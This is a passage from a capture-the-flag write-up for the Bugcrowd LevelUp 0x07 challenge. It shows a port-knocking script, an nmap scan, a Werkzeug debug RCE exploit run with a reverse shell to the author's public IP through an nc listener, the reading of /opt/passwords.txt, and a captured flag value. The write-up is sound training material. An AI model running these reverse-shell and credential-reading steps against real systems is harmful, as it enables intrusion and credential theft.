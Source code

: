 ```python
	print "Ports: ", ports

	for p in permutations(ports):	# Try all the possibilities of the 4-ports order
		print "\n[*] Trying sequence %s" % str(p)
		knockPorts(p)
		testPort(3389)

main()
```

First give execution permission for the script:

**`$ chmod +x knock.py`**

Then, you can run it on your terminal:

**`$ ./knock.py`**

![Image]({{ 'assets/images/writeups/bugcrowd-levelup0x07-ctf/23.png' | relative_url }})

Now after we succeeded to open port number **`3389`**, and scanned it using **`nmap`**. We find a running web service on that port called **`Werkzeug`**.

**`$ nmap -A -p 3389 07.levelupctf.com`**

![Image]({{ 'assets/images/writeups/bugcrowd-levelup0x07-ctf/24.png' | relative_url }})

And by searching for any exploits for it, we can find one RCE exploit which provide us with a shell on the server, where we can easily find the sixth flag.

> - **Exploit Database:** <https://www.exploit-db.com/exploits/43905><br>
> - **Rapid7 Vulnerability & Exploit Database:** <https://www.rapid7.com/db/modules/exploit/multi/http/werkzeug_debug_rce><br>

After downloading the exploit from **Exploit Database**, run it on your terminal to display it's usage.

`USAGE: python 43905.py <ip> <port> <your ip> <netcat port>`

**`$ python2 43905.py 07.levelupctf.com 3389 3.13.191.225 13264`**

![Image]({{ 'assets/images/writeups/bugcrowd-levelup0x07-ctf/25.png' | relative_url }})

Here I used an awesome tool/service called [**`ngrok`**](https://ngrok.com/) . Which is a good choice if you don't have a VPS with a public IP. It enabled me to forward the exploit traffic to my localhost computer behind NAT.

**`$ nc -lvp 9999`**

![Image]({{ 'assets/images/writeups/bugcrowd-levelup0x07-ctf/26.png' | relative_url }})

> **Sixth flag: `FLAG{022d8a7a561a02c371fd7c5ec3e5ea06}`**{: style="color: black;" }

Then, by looking into important files and directories in the linux server, you can find **`passwords.txt`** file in **`/opt`** directory, which contains credentials of the agents for the web portal.

**`$ cd /opt`**<br>
**`$ cat passwords.txt`**
